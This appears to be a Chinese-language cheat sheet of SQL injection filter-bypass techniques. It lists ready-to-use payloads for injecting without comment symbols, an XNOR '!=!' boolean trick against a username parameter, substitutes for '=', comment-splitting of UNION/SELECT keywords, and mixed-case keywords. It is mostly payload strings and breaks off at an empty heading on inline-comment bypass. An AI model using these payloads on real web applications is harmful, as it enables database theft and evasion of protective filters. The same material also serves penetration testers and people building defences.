 ## 绕过注释符号（#，--）

```
id=1&#39; union select 1,2,3||&#39;1
id=1&#39;union select 1,2,&#39;3
```

同或(!=!)可以构造

```
username=tarnish&#39;!=!(1)!=!&#39;1	#(True !=! True !=! True) == True
username=tarnish&#39;!=!(0)!=!&#39;1	#(True !=! False !=! True) == False
```

原理：

```
同或 !=! 的逻辑：
1 !=! 1 == 1
1 !=! 0 == 0
0 !=! 1 == 0
0 !=! 0 == 1
```

## =绕过

* 用 like 
* `&gt;`
* `&lt;`

## 绕过union，select，where

### 使用注释符绕过

```
//
--
/**/
#
--&#43;
-- -
;
%00
--a
```

用法：`U/**/NION/**/SE/**/LECT/**/user，pwd from user`

### 大小写绕过

```
id=-1&#39;UnIoN/**/SeLeCT
```

### 内敛注释绕过
